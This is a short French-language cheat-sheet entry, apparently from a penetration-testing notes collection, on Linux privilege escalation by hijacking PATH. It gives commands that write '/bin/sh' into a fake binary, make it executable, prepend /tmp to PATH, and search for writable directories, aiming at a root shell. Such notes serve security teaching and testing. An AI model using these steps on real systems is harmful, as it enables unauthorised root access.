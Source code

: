 # PATH

PATH sous Linux est une variable d'environnement qui indique au système d'exploitation où rechercher les exécutables.

## Exploitation

Lorsque un binaire est exécuté sans chemin complet (chemin relative) et que ce binaire s'exécute avec les privilèges de l'utilisateur root, nous pouvons manipuler notre chemin pour obtenir un shell root.
 
Cela en creant le meme binaire contenant un script malveillant et renommer la variable $PATH pour modifier les chemins d'executable.


```sh
echo $PATH
```

```sh
echo '/bin/sh' > binary
chmod 777 binary
export PATH=/tmp:$PATH
```

Les questions a ce poser avant d'exploiter cette vulnérabilité :

1. Quels dossiers se trouvent sous $PATH ?
2. Votre utilisateur actuel dispose-t-il de privilèges d'écriture pour l'un de ces dossiers ?
3. Pouvez-vous modifier $PATH ?
4. Existe-t-il un script/une application que vous pouvez démarrer et qui sera affecté par cette vulnérabilité ?

```sh
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
